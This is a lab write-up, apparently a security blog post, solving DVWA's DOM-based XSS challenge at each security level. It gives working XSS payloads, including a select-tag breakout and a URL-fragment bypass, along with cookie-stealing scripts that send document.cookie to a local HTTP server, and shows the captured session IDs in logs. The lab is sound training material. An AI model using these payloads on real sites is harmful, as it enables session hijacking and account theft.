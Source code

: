 ```yaml
---
title: DVWA - XSS (DOM)
date: 2023-12-16
categories: [DVWA]
tags: [dvwa, xss, xss-dom, cross-site-scripting, burp, javascript]
img_path: /assets/dvwa/xss_dom
published: true
image:
    path: ../dvwa_logo.png
---
```


## Information

- [How to install dvwa on Kali](https://www.kali.org/tools/dvwa/).
- [Official GitHub repository](https://github.com/digininja/DVWA).

> The DVWA server itself contains instructions about almost everything.

_**Damn Vulnerable Web Application (DVWA)** is a PHP/MySQL web application that is damn vulnerable. Its main goal is to be an aid for security professionals to test their skills and tools in a legal environment, help web developers better understand the processes of securing web applications and to aid both students & teachers to learn about web application security in a controlled class room environment._

_The aim of DVWA is to practice some of the most common web vulnerabilities, with various levels of difficultly, with a simple straightforward interface._

![](dvwa_home.png){: width='70%' }

The DVWA server has **4 different security levels** which can be set as seen below:

![](security_levels.png){: width='70%' }

- **Low**: This security level is completely vulnerable and has no security measures at all. It's use is to be as an example of how web application vulnerabilities manifest through bad coding practices and to serve as a platform to teach or learn basic exploitation techniques.
- **Medium**: This setting is mainly to give an example to the user of bad security practices, where the developer has tried but failed to secure an application. It also acts as a challenge to users to refine their exploitation techniques.
- **High**: This option is an extension to the medium difficulty, with a mixture of harder or alternative bad practices to attempt to secure the code. The vulnerability may not allow the same extent of the exploitation, similar in various Capture The Flags (CTFs) competitions.
- **Impossible**: This level should be secure against all vulnerabilities. It is used to compare the vulnerable source code to the secure source code.

## XSS (DOM)

**Cross-Site Scripting (XSS)** attacks are a type of injection problem, in which malicious scripts are injected into the otherwise benign and trusted web sites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application using input from a user in the output, without validating or encoding it.

**An attacker can use XSS to send a malicious script to an unsuspecting user**. The end user's browser has no way to know that the script should not be trusted, and will execute the JavaScript. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by your browser and used with that site. These scripts can even rewrite the content of the HTML page.

**Document Object Model (DOM) Based XSS** is a special case of reflected where the **JavaScript is hidden in the URL** and pulled out by JavaScript in the page while it is rendering rather than being embedded in the page when it is served. This can make it stealthier than other attacks and WAFs or other protections which are reading the page body do not see any malicious content.

![](https://miro.medium.com/v2/resize:fit:786/1*yuRkBR6YroYLCGpka9KdRA.png){: width='70%' }

**Objective**: Run your own JavaScript in another user's browser, use this to steal the cookie of a logged in user.

## Security: Low
> _Low level will not check the requested input, before including it to be used in the output text ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/xss_dom/xss_dom_low_source.php))._

1. We can see that there is the URL parameter `default`:

    ![](url_param.png)

2. We can check if a XSS vulnerability exists by passing a very simple payload:

    ```javascript
    <script>alert(document.cookie)</script>
    ```

    ![](xss_test.png)


3. Our goal is to get our target's cookie value, so we will have to use a payload that grabs his cookie but also send it to us. Let's start by launch a Python3 HTTP server:

    ```shell
    $ python3 -m http.server 8080
    Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
    ```

4. Then we can pass the following payload, for example, by using social engineering techniques, which grabs the cookie, `document.cookie`, and sends it to our HTTP server, `window.location='http://127.0.0.1:8080/?cookie='`:

    ```javascript
    <script>window.location='http://127.0.0.1:8080/?cookie=' + document.cookie</script>
    ```

    ![](low_payload.png)

5. If we check back on our HTTP server, we will have received the victim's cookie:

    ```shell
    $ python3 -m http.server 8080
    Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
    127.0.0.1 - - [16/Dec/2023 18:46:37] "GET /?cookie=security=low;%20PHPSESSID=fejtgct45j1cmkcedvieacnai5 HTTP/1.1" 200 -
    ```

## Security: Medium
> _The developer has tried to add a simple pattern matching to remove any references to `"<script"` to disable any JavaScript. Find a way to run JavaScript without using the script tags ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/xss_dom/xss_dom_medium_source.php))._

1. This time the developer replaces the `<script` tag with `?default=English`, so the previous payload won't work. There is a handy [XSS Payload List](https://github.com/1N3/IntruderPayloads/blob/master/FuzzLists/xss_payloads_quick.txt) on GitHub, so we can choose any other form of payload which does not include the blacklisted tag. Let's try one:

    ```javascript
    <svg/onload=alert(1)>
    ```

    ![](medium_payload_fail.png)

2. The payload does not get replaced, but it does seem to work either. If we take a look at the page's source code, we will see a `select` statement, and if we escape that by modifying a bit our payload, it will work:

    ![](medium_page_source.png)

    ```javascript
    </select><svg/onload=alert(1)>
    ```

    ![](medium_payload.png)

3. We can use the same process as before to steal our target's cookie:

    ```javascript
    </select><svg/onload=window.location='http://127.0.0.1:8080/?cookie='+document.cookie>
    ```

    ![](medium_payload_cookie.png)

    ```shell
    $ python3 -m http.server 8080
    Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
    127.0.0.1 - - [16/Dec/2023 20:49:43] "GET /?cookie=PHPSESSID=fejtgct45j1cmkcedvieacnai5;%20security=medium HTTP/1.1" 200
    ```

## Security: High
> _The developer is now white listing only the allowed languages, you must find a way to run your code without it going to the server ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/xss_dom/xss_dom_high_source.php))._

1. On this level, the developer has a whitelist allowing only a set of predefined languages; anything else is replaced with `?default=English`. What happens here is that when we sent the GET request that has our payload, it gets redirected to a new GET request with `?default=English`:

    ```javascript
    127.0.0.1:42001/vulnerabilities/xss_d/?default=<script>alert(document.cookie)</script>
    ```

    ![](high_first_request.png)

    ![](high_second_request.png)

2. Reading OWASP's page for [DOM Based XSS](https://owasp.org/www-community/attacks/DOM_Based_XSS), on the *Advanced Techniques and Derivatives* section, we find this:

    _The DOM Based XSS paper details a technique to avoid server side detection. It also describes several other possible locations for the payload, besides `document.location`. The technique to avoid sending the payload to the server hinges on the fact that **URI fragments (the part in the URI after the “#”) is not sent to the server by the browser**. Thus, any client side code that references, say, `document.location`, may be vulnerable to an attack which uses fragments, and in such case the payload is never sent to the server. For example, the above DOM based XSS can be modified into:_

    ```javascript
    http://www.some.site/page.html#default=<script>alert(document.cookie)</script>
    ```

    _which mounts the same attack without it being seen by the server (which will simply see a request for page.html without any URL parameters)._

2. Let's try that to see if it works:

    ```javascript
    127.0.0.1:42001/vulnerabilities/xss_d#default=<script>alert(document.cookie)</script>
    ```

    ![](high_test.png)

3. Let's use the exact same payload as the one used at the low level and get the cookie:

    ```shell
    $ python3 -m http.server 8080
    Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
    ```

    ```javascript
    127.0.0.1:42001/vulnerabilities/xss_d#default=<script>window.location='http://127.0.0.1:8080/?cookie=' + document.cookie</script>
    ```

    ![](high_payload.png)

    ```shell
    $ python3 -m http.server 8080
    Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
    127.0.0.1 - - [16/Dec/2023 20:14:15] "GET /?cookie=security=high;%20PHPSESSID=fejtgct45j1cmkcedvieacnai5 HTTP/1.1" 200 -
    ```

## Security: Impossible
> _The contents taken from the URL are encoded by default by most browsers which prevents any injected JavaScript from being executed ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/xss_dom/xss_dom_impossible_source.php))._

## Resources

- Cryptocat's [video walkthrough](https://www.youtube.com/watch?v=X87Ubv-qDm4).
- OWASP's [DOM Based XSS](https://owasp.org/www-community/attacks/DOM_Based_XSS).
- GitHub's [XSS Payload List](https://github.com/1N3/IntruderPayloads/blob/master/FuzzLists/xss_payloads_quick.txt).